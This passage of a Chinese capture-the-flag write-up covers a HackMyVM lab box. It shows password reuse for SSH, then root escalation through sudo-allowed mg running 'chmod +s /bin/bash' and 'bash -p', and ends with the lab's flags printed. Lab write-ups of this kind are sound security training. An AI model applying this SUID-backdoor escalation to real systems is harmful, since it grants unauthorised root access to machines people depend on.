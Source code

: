 ```python
s.send((md5_hash + "\n").encode())

print(s.recv(4096).decode())
s.close()
```

成功通过所有挑战后，服务返回了一个密码。

```
Congratulations! Flag: HMV{Wow!VeryFuuuuuny!}
```

这个密码`Wow!VeryFuuuuuny!`实际上是`peter`用户的SSH密码。使用该密码成功登录`peter`账户。

```bash
┌──(pythonvenv)─(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ ssh peter@192.168.205.132
peter@192.168.205.132's password: Wow!VeryFuuuuuny!
...
peter@Griffin:~$ id
uid=1003(peter) gid=1003(peter) groups=1003(peter)
```

## **3.5 Sudo提权 (peter -> root)**

最后，检查`peter`用户的sudo权限。

```bash
peter@Griffin:~$ sudo -l
...
User peter may run the following commands on Griffin:
    (ALL) NOPASSWD: /usr/bin/mg
```

`peter`可以免密以root权限运行文本编辑器`mg`。`mg`编辑器可以通过执行外部shell命令来进行提权。

1.  创建一个脚本`/tmp/a`，内容为给`/bin/bash`添加SUID权限位，并赋予其执行权限。

    ```bash
    peter@Griffin:~$ echo 'chmod +s /bin/bash' > /tmp/a
    peter@Griffin:~$ chmod +x /tmp/a
    ```

2.  以sudo权限运行`mg`。

    ```bash
    peter@Griffin:~$ sudo /usr/bin/mg
    ```

3.  在`mg`编辑器中，按`Alt-x`，输入`shell-command`并按回车。
4.  在新的提示符下，输入`/tmp/a`并回车，执行我们的脚本。
5.  按`Ctrl-x` `Ctrl-c`退出`mg`编辑器。

此时，`/bin/bash`已被设置了SUID位。使用`-p`参数运行bash以保留有效用户ID（euid）。

```bash
peter@Griffin:~$ bash -p
bash-5.0# id
uid=1003(peter) gid=1003(peter) euid=0(root) egid=0(root) groups=0(root),1003(peter)
```

成功获得root权限。读取最终的flag。

```bash
bash-5.0# cat /root/root.txt /home/lois/user.txt
flag{root-be93b7d7f0a30d5159c0460874e6e015}
flag{user-f6b63474e7cc20b0893a82beb9e3b3fd}
```
